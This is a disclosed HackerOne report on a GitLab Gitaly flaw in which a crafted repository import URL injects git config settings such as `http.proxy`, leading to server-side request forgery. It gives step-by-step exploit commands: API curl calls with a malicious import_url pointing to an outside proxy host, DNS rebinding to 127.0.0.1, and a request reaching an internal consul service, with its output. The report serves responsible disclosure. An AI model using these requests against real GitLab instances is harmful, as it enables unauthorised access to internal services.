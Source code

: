 # Injection of `http.<url>.*` git config settings leading to SSRF

## Report Details
- **Report ID**: 855276
- **URL**: https://hackerone.com/reports/855276
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-04-21T14:56:04.931Z
- **Disclosed**: 2020-09-08T13:46:02.172Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

When import a repo with credentials via a URL, gitaly generates the git clone command with a `-c` flag to add the Authorization header:

https://gitlab.com/gitlab-org/gitaly/-/blob/master/internal/service/repository/create_from_url.go#L37
```go
flags = append(flags, git.ValueFlag{Name: "-c", Value: fmt.Sprintf("http.%s.extraHeader=%s", u.String(), authHeader)})
```

Which will create a command such as:
```bash
git clone --bare -c http.followRedirects=false -c 'http.http://example.com/repo.git.extraHeader=Authorization: Basic YWE6YmI=' -- http://example.com/repo.git /repo/path
```

The issue is that the url can contain one of the http config values from https://git-scm.com/docs/git-config#Documentation/git-config.txt-httplturlgt, which will result the user supplied config being set instead of `extraHeader` (with the `.extraHeader..` being appended to the value).

This allows an attacker to set things like `http.proxy` which can result in a SSRF if they use an import url such as `http://user@google.com/.proxy=http://proxy.aw.rs:8500`


### Steps to reproduce
1. Create a dns entry with a short TTL
1. Start a server listening on the port that you want to hit with the SSRF that always returns `200 OK`, something like {F797777}
1. Create a project with the specially crafted import url: `curl -H "Authorization: Bearer $TOKEN" -v -XPOST 'http://gitlab-vm.local/api/v4/projects?import_url=http://user@google.com/.proxy=http://proxy.aw.rs:8500&name=proxy4'`. This results in the following `.git/config` for the repo:

    ```bash
    sudo cat /var/opt/gitlab/git-data/repositories/@hashed/fc/56/fc56dbc6d4652b315b86b71c8d688c1ccdea9c5f1fd07763d2659fde2e2fc49a.git/config
    [core]
        repositoryformatversion = 0
        filemode = true
        bare = true
    [http]
        followredirects = false
    [http "http://google.com/"]
        proxy = http://proxy.aw.rs:8500.extraHeader=Authorization: Basic dXNlcg==
    ```
1. Update the dns entry to point to `127.0.0.1` and wait for it to propergate
1. Add a new mirror to the project using the same host but with the path for the SSRF (it will go through the proxy), append a `?` to make sure the appended paths are removed: `curl -H "Authorization: Bearer $TOKEN" -v -XPUT 'http://gitlab-vm.local/api/v4/projects/204?mirror=true&import_url=http://google.com/v1/config?'`
1. Check the status of the import to see the result of the SSRF (in this case hitting consul on port 8500)
    ```bash
curl -H "Authorization: Bearer $TOKEN" -v 'http://gitlab-vm.local/api/v4/projects/204' | jq .import_error`
"2:Fetching remote upstream failed: remote: method GET not allowed\nfatal: unable to access 'http://google.com/v1/config?/': The requested URL returned error: 405\n"
    ```

Git (via curl) allows for `socks4` and `socks5` proxies as well which could potentially be used to generated other SSRF payloads for things like redis or for leaking internal dns resolutions. There maybe other `http.*` configs that could be exploited, an interesting one is `http.cookieFile` but due to the appended `.extraHeader=` the path is not really controllable from my initial testing.

### Impact
* An attacker can set the `http.<url>.proxy` git config resulting in SSRF

### What is the current *bug* behavior?
The git http config propertied can be influenced by the import url

### What is the expected *correct* behavior?
Only the `extraHeader` config should be set via the git clone.

### Output of checks
#### Results of GitLab environment info
```
System information
System:		Ubuntu 18.04
Proxy:		no
Current User:	git
Using RVM:	no
Ruby Version:	2.6.5p114
Gem Version:	2.7.10
Bundler Version:1.17.3
Rake Version:	12.3.3
Redis Version:	5.0.7
Git Version:	2.24.2
Sidekiq Version:5.2.7
Go Version:	unknown

GitLab information
Version:	12.9.4-ee
Revision:	6a1a8e88568
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	10.12
URL:		http://gitlab-vm.local
HTTP Clone URL:	http://gitlab-vm.local/some-group/some-project.git
SSH Clone URL:	git@gitlab-vm.local:some-group/some-project.git
Elasticsearch:	no
Geo:		no
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers:

GitLab Shell
Version:	12.0.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git
```

## Impact

* An attacker can set the `http.<url>.proxy` git config resulting in SSRF

## Attachments
- proxy.py
